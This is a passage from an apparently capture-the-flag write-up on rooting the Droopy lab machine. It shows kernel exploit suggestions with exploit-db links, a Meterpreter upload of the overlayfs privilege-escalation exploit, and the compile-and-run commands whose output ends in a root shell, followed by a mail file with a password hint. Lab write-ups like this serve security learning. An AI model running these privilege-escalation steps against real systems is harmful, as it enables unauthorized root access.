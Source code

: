 ``` 
Name: b43 Wireless Driver Privilege Escalation
CVE: CVE-2013-2852
Source code: https://www.exploit-db.com/exploits/38559/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: open-time Capability file_ns_capable() Privilege Escalation
CVE: CVE-2013-1959
Source code: https://www.exploit-db.com/exploits/25450/
###########################################
```

Ubuntu and overlayfs exploit = PWN! I uploaded the exploit source code to the target via Meterpreter:

``` 
meterpreter > upload /root/37292.c /tmp/
[*] uploading  : /root/37292.c -> /tmp/
[*] uploaded   : /root/37292.c -> /tmp//37292.c
```

I went back to the shell, and compiled the exploit and made it executable. Droopy is rooted!

``` 
gcc 37292.c -o overlayfs
chmod +x overlayfs
./overlayfs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

But the challenge is not over here. We are root, but remember the hints! We didn't get to do anything with them. I went to the <code>/var/mail</code> directory and found the following message:

``` 
# cat www-data
From Dave <dave@droopy.example.com> Wed Thu 14 Apr 04:34:39 2016
Date: 14 Apr 2016 04:34:39 +0100
From: Dave <dave@droopy.example.com>
Subject: rockyou with a nice hat!
Message-ID: <730262568@example.com>
X-IMAP: 0080081351 0000002016
Status: NN

George,

   I've updated the encrypted file... You didn't leave any
hints for me. The password isn't longer than 11 characters
and anyway, we know what academy we went to, don't you...?

I'm sure you'll figure it out it won't rockyou too much!

If you are still struggling, remember that song by The Jam

Later,
Dave
```
